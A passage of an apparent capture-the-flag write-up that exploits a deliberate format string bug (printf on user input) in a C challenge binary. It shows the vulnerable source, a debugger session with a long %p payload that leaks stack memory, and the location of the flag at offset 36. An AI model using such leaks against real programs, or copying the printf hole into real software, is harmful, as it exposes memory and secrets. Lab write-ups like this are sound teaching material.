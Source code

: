 ```c
   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

We see that there is a `format string vulnerability` and the flag is written on the stack. Knowing that, we need to find where it's located and just print it.

Create a fake flag.txt for testing.

We set a breakpoint right after it's called and send a couple of `%s`.

```bash
gef➤  c
Continuing.
Tell me a story and then I'll tell you one >> %p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
Here's a story - 
0xffffcf40.0xf7c12374.0x8049346.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x252e70.0x6f636970.0x6b34667b.0x6c665f33.0x345f6734.0x3533745f.0x676e3174.0xff000a7d.
```

The flag starts with `p` whose hex value is `0x70` and `i` is `0x69`. We need to find these 2 together to see the start of the flag.

```gdb
gef➤  printf "0x%x\n", 'p'
0x70
gef➤  printf "0x%x\n", 'i'
0x69
```

They are together at the `36` index. We make a brute force script to leak the whole flag.
